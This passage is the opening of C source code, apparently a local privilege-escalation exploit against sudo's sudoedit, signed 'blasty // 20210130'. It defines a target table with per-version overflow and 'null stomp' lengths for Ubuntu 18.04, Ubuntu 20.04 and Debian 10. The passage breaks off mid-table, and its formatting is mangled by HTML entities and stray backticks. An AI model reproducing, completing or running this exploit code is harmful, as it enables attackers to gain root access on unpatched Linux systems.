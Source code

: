```
 **
 **   -- blasty // 20210130
 **/

#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdint.h&gt;
#include &lt;unistd.h&gt;
#include &lt;ctype.h&gt;

// 512 environment variables should be enough for everyone
#define MAX_ENVP 0x1000

typedef struct `{`
        char *target_name;
        char *sudoedit_path;
        uint32_t smash_len_a;
        uint32_t smash_len_b;
        uint32_t null_stomp_len;
        uint32_t lc_all_len;
`}` target_t;

char *lc_names[]=`{`
        "LC_COLLATE",
        "LC_CTYPE",
        "LC_MONETARY",
        "LC_NUMERIC",
        "LC_TIME",
        "LC_MESSAGES",
        "LC_PAPER",
        "LC_NAME",
        "LC_ADDRESS",
        "LC_TELEPHONE",
        "LC_MEASUREMENT",
        "LC_IDENTIFICATION"
`}`;

target_t targets[] = `{`
    `{`
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 58,
        .smash_len_b    = 54,
        .null_stomp_len = 63,
        .lc_all_len     = 0x30
        // .lc_all_len     = 212
    `}`,
    `{`
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 58,
        .smash_len_b    = 54,
        .null_stomp_len = 63,
        .lc_all_len     = 212
    `}`,
    `{`
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60,
```